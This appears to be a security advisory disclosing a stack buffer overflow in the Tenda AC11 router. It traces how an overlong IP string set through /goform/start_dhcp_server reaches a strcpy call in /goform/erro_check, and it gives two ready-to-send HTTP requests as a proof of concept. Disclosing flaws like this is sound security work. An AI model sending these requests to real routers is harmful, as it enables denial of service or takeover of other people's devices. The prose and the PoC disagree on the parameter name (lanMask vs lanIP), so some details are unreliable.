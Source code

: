 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/erro_check` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_80014DE0` (page `/goform/erro_check`).

This function uses `strcpy` to copy the string pointed by `v4` into a stack buffer pointed by `v30`. `v4` is directly retrived from the nvram variable `lan_ipaddr` without any security check.

![1](1.PNG)

the `lan_ipdaddr` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanMask` into varialbe `v10`, which can then be used to assign to the `lan_ipaddr` variable.

![2](2.PNG)

If function `gstrcmp_0(v43,v10)` doesn't return zero ,and function `sub_800d4cf8` returns zero, then the nvram variable `lan_ipaddr` will be set as `v10`.

`v10` is the input vector,and `v43` is a fix string, so it's easy to make them different to make function  `gstrcmp` returns not zero.

![3](3.PNG)


In function `sub_800d4cf8`,if we want it returns zero,we must make `strlen(a1)` is bigger than 7,it's easy to make.And the return value of function `sub_80236d90` must be zero. 

In function `sub_800236d90` , it will do IP legitimacy check.For example,`a1` is `192.168.1.1`,and it will use function like `atoi` to make string to number.And check like `192 < 256` , `168 < 256` , `1 < 256` and so on.But it will not check the length. So we can get a very long string like `192.168.1.0000000000000000000000000000000000000000000000000000000000000000000000001` but also pass the check .And after the check,function `sub_80236d90` will give `v4` a 4-bytes ip address like `0xc0a80101`. If `a1` can pass the check, `v2` will be zero, but `a1` will not get changed and will be set in nvram variable `lan_ipaddr`. So we can make `lan_ipaddr` variable in nvram is a very long string.


![4](4.PNG)


So by first setting the `lan_ipaddr` and then requesting the page `/goform/erro_check`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&lanIP=192.168.1.000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/erro_check HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@Lnkvct](https://github.com/Lnkvct) , and [@1chig0](https://github.com/1chig0) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.
